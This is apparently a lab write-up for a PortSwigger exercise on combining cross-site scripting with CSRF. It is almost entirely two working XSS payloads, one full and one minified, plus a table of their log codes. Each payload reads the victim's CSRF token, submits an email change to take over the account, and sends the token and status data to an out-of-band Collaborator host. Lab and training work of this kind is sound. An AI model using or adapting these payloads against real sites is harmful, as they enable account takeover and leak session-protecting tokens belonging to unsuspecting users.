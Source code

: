 # [XSS+CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)

Here's a purposefully over-engineered XSS payload, with error-checking for debugging, that grabs a CSRF token before submitting a POST request to the target:

```text
<script>
async function exploit() {
  const accURL = '/my-account/';
  const chgURL = '/my-account/change-email';
  const oastURL = 'https://COLLAB_DOMAIN.oastify.com';
  const newEmail = 'x@x.xyz';

  function logOAST(eventType, data = '') {
    let path = `/${encodeURIComponent(eventType)}`;
    if (data) {
      const maxLen = 100;
      let eventDataString = typeof data === 'object' ? JSON.stringify(data) : String(data);
      if (eventDataString.length > maxLen) {
        eventDataString = eventDataString.substring(0, maxLen) + '...[truncated]';
      }
      path += `/${encodeURIComponent(eventDataString)}`;
    }
    new Image().src = oastURL + path;
  }

  logOAST('EXPLOIT_STARTED');

  try {
    const response = await fetch(accURL);
    if (!response.ok) {
      logOAST('ERROR_FETCH_ACCOUNT_PAGE', `Status-${response.status}_${response.statusText}`);
      return;
    }
    const pageHtml = await response.text();
    logOAST('INFO_ACCOUNT_PAGE_FETCHED');
    let csrfToken;

    const parser = new DOMParser();
    const doc = parser.parseFromString(pageHtml, 'text/html');
    const csrfInput = doc.querySelector('input[name="csrf"]');

    if (csrfInput && csrfInput.value) {
      csrfToken = csrfInput.value;
      logOAST('INFO_CSRF_TOKEN_FOUND', csrfToken);
    } else {
      logOAST('ERROR_CSRF_TOKEN_NOT_FOUND');
      return;
    }

    const formData = new URLSearchParams();
    formData.append('email', newEmail);
    formData.append('csrf', csrfToken);

    logOAST('INFO_SUBMITTING_EMAIL_CHANGE');
    const submitResponse = await fetch(chgURL, {
      method: 'POST',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded',
      },
      body: formData.toString(),
    });

    if (submitResponse.ok) {
      logOAST('SUCCESS_EMAIL_CHANGE_SUBMITTED');
    } else {
      const errorText = await submitResponse.text();
      logOAST('ERROR_EMAIL_CHANGE_FAILED', `Status-${submitResponse.status}_${submitResponse.statusText}_Body-${errorText}`);
    }
  } catch (error) {
    logOAST('ERROR_SCRIPT_EXCEPTION', error.message || String(error));
  }
  logOAST('EXPLOIT_FINISHED');
}
exploit();
</script>
```

Here's a minified version to get under a character-limit in the vulnerable field:

```javascript
<script>
async function x(){u1='/my-account/';u2='/my-account/change-email';O='https://COLLAB_DOMAIN.oastify.com';E='x@x.xyz';L=(t,d)=>{let p=encodeURIComponent(t);if(d||d===0)p+=`/${encodeURIComponent(d)}`;new Image().src=O+`/${p}`};L('S');try{r1=await fetch(u1);if(!r1.ok){L('E1',r1.status+"_"+r1.statusText);return}h=await r1.text();L('F1');let tk;P=new DOMParser();D=P.parseFromString(h,'text/html');ci=D.querySelector('input[name="csrf"]');if(ci&&ci.value){tk=ci.value;L('CF',tk)}else{L('E2');return}L('S2');r2=await fetch(u2,{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:`email=${E}&csrf=${tk}`});if(r2.ok){L('OK')}else{et=await r2.text();L('E3',r2.status+"_"+r2.statusText+"_"+et)}}catch(ex){L('EX',ex.message||ex)}L('F')}x()
</script>
```

Error code table:

- `EXPLOIT_STARTED` -> `S`
- `ERROR_FETCH_ACCOUNT_PAGE` -> `E1`
- `INFO_ACCOUNT_PAGE_FETCHED` -> `F1`
- `INFO_CSRF_TOKEN_FOUND` -> `CF`
- `ERROR_CSRF_TOKEN_NOT_FOUND` -> `E2`
- `INFO_SUBMITTING_EMAIL_CHANGE` -> `S2`
- `SUCCESS_EMAIL_CHANGE_SUBMITTED` -> `OK`
- `ERROR_EMAIL_CHANGE_FAILED` -> `E3`
- `ERROR_SCRIPT_EXCEPTION` -> `EX`
- `EXPLOIT_FINISHED` -> `F`

